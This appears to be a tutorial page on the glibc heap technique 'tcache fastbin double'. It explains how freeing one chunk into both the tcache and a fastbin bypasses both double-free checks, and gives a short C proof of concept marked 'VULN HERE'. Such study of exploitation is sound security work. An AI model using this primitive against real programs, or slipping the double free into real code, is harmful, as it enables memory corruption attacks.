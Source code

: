 ## tcache fastbin double

**Purpose**: We can have 2 same chunk in both tcache and fastbin. This can be used to bypass both fastbin & tcache double free checks.

**More details**:

- tcache double free check: check the `tcache key` of the chunk being freed with the `tcache key` of all chunks in the tcache bin. If any of them matches, abort.

- fastbin double free check: if the chunk being freed is the same as the first chunk in the fastbin (head of fastbin), abort.

-> Take that advantage, the fastbin double free check cannot detect that a chunk has been inserted into the tcache and vice versa.

## PoC

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    setbuf(stdout, NULL);
    setbuf(stdin, NULL);

    void *chunks[8];

    for (int i = 0; i < 7; i++)
    {
        chunks[i] = malloc(0x10);
    }

    chunks[7] = malloc(0x10);

    for (int i = 0; i < 7; i++)
    {
        free(chunks[i]);
    }

    free(chunks[7]); // free normally to fastbin
    malloc(0x10); // take from tcache so that we have 1 free space in tcache
    /* VULN HERE */
    free(chunks[7]); // this time chunk is freed again to tcache
    /* VULN HERE */

    // now chunks[7] is in both tcache and fastbin
    // with this, on the next malloc(0x10), it will be taken from tcache
    // this time we can control the fd pointer of the fastbin chunk

    return 0;
}
```
